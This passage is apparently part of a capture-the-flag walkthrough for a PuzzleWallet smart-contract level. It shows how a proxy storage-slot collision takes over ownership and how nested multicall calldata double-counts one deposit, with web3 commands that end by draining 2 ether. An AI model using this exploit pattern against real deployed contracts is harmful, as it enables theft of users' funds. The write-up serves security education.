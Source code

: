 Now, via the magic of the Proxy and Logic layer sharing storage at slot 0, the `owner` variable within `PuzzleWallet` will be overwritten to match our `player` address.

```
await contract.owner() // should now be your address
```



Now that you are the `owner` of `PuzzleWallet` , you can whitelist your address

```
await contract.addToWhitelist(player); // overcomes the onlyWhitelisted modifier protecting the functions in the contractawait contract.whitelisted(player) // should now return true
```

Hooray! Now you have access to all the PuzzleWallet methods. 



Let’s break down our attack into 3 separate function calls, all sent to `multicall` along with a msg.value of 1 Ether.

1. Function to invoke the PuzzleWallet.deposit function
2. Function which invokes multicall which invokes deposit again
3. Function which invokes PuzzleWallet.execute, sending our address 2x the Ether we sent in our msg.value

`multicall` expects an array of bytes which it compares to `deposit.selector` . We can get our target function method selectors by reading the first 4 bytes of our target method

```javascript
web3.utils.keccak256('deposit()') // 0xd0e30db0
```

Alternatively, we can use the built-in `web3` `method.request` utility to get this data:

```javascript
var {data: puzzleDeposit } = await contract.deposit.request() // 0xd0e30db0
```

Repeat this to grab the data for our other two functions:

```javascript
// function 2
var { data: inceptionMultiCall } = await contract.multicall.request([ puzzleDeposit ]);// function 3
var { data: puzzleExecute } = await contract.execute.request(player, web3.utils.toWei('2', 'ether'), []);
```

Now we are ready to steal some money:

```javascript
var our3Functions = [
      puzzleDeposit,
      inceptionMultiCall,
      puzzleExecute,
    ];await contract.multicall(our3Functions, { from: player, value: web3.utils.toWei('1', 'ether')});
```
